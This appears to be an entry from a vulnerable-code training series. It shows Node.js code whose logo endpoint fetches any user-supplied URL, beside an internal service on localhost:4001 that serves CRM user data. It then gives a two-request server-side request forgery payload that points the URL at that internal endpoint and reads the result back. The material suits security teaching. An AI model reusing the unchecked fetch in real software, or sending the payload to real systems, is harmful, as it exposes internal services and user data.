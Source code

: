 ```javascript
        let imageUrl = validURL(json.imageUrl) ? json.imageUrl : '';
        console.log("/setCompanyLogo companyId:", companyId, "imageURL:", imageUrl);

        if(companyId != '' && companyId.match(uuidFormat)) {
            const result = await fetch(imageUrl);
            fs.writeFileSync(`${process.env.companyLogosFolder}/${companyId}`, await result.text());
            res.sendStatus(200);
        }
        else res.send("invalid arguments provided");
    } catch (e) {
        res.send(e.message);
    }
})

app2.get('/CRMUsers', async (req, res) => {
    res.send(CRMUsers);
})

app.listen(process.env.port, () => {
    console.log(`API listening on PORT ${process.env.port}`)
})

// Internal service; accessible only from localhost on port 4001
app2.listen(4001, 'localhost', function() {
    console.log("Internal service started port %d in %s mode", 4001, app2.settings.env);
});
```

SSRF in logo image URL

```
POST /setCompanyLogo

{
  "companyId": "11fe8700-e29b-41d4-a716-446655440000",
  "imageUrl": "http://localhost:4001/CRMUsers"
}
```

<br />

```
POST /getCompanyLogo

{
  "companyId": "11fe8700-e29b-41d4-a716-446655440000"
}
```



<br /><br />

### **#15: Login Here**
